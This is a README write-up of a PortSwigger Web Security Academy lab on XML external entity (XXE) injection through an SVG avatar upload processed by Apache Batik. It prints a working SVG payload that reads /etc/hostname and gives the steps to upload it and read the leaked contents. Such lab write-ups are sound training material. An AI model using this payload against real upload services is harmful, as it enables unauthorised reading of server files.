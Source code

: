 
### 📁 `README.md` — Exploiting XXE via SVG Image Upload

# 🖼️ Exploiting XXE via Image File Upload (SVG)

**🧪 Lab Level:** Practitioner  
**🔐 Vulnerability:** XXE in SVG image processed by Apache Batik  
**✅ Status:** Solved  
**🛠 Platform:** PortSwigger Web Security Academy  
**🎯 Objective:** Leak the contents of `/etc/hostname` by uploading a malicious SVG avatar image.

---

## 🔍 Lab Summary

The application allows users to upload avatar images in SVG format.  
It uses the **Apache Batik** library to process SVGs.  
The lab is vulnerable to **XXE via the SVG file**, enabling reading of local files like `/etc/hostname`.

---

## ⚙️ Exploitation Steps

### 1. 📝 Create the Malicious SVG

Save this payload as `exploit.svg` locally:

```xml
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" 
     xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
  <text font-size="16" x="0" y="16">&xxe;</text>
</svg>
````

---

### 2. 📤 Upload the SVG

* Post a comment on any blog post
* Upload `exploit.svg` as your avatar image

---

### 3. 👀 Verify the Output

View your comment:
You should see the **contents of `/etc/hostname` rendered as text inside the image**.

---

### 4. 🏁 Submit the Solution

Use the displayed hostname value from the image and submit it using the lab’s **“Submit solution”** button.
---

## 📸 Screenshots

Here are some screenshots demonstrating the successful exploitation of the XXE via SVG image upload lab:

![xxe](https://github.com/Kabilala/xxe/blob/main/lab8/lab8-1.png)

![xxe](https://github.com/Kabilala/xxe/blob/main/lab8/lab8-2.png)

---

## 🧠 Technical Details

| Feature                | Explanation                                        |
| ---------------------- | -------------------------------------------------- |
| `<!ENTITY xxe SYSTEM>` | Loads local file `/etc/hostname`                   |
| SVG with DOCTYPE       | Defines the external entity for XXE injection      |
| `<text>` element       | Renders the entity content visibly in SVG          |
| Apache Batik           | XML parser vulnerable to external entity expansion |

---
